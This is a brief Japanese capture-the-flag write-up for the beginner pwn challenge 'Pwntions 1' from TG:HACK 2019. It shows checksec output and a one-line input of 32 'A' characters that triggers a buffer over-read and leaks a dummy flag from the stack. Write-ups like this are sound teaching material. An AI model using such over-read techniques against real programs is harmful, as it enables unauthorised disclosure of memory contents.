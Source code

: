 # [pwn 50pts] Pwntions 1 - TG:HACK 2019
32bitで全部無効です。
```
$ checksec -f pwntion1_public
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   91 Symbols     No	0		4	pwntion1_public
```

ご丁寧にCのコードまで渡されています。
バッファオーバーリードがあるのでスタック上のフラグが読めます。

```
$ python -c 'print("A"*32, end="")' | ./pwntion1_public 
Test banner


Professor maritio_o:
"As there is little foolish wand-waving here, many of you will
hardly believe this is magic. I don't expect you will really
understand the beauty of the softly simmering cauldron with
its shimmering fumes, the delicate power of liquids that
creep through the human veins, bewitching the minds, ensnaring
the senses... I can teach you how to bottle fame, brew glory,
and even stopper death - if you aren't as big a bunch of
dunderheads as I usually have to teach."

Student:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATG19{This is a dummy flag. Real flag on server.}
```

本番サーバーは動いてませんでした。

# 感想
pwn初心者向けの問題だと思います。

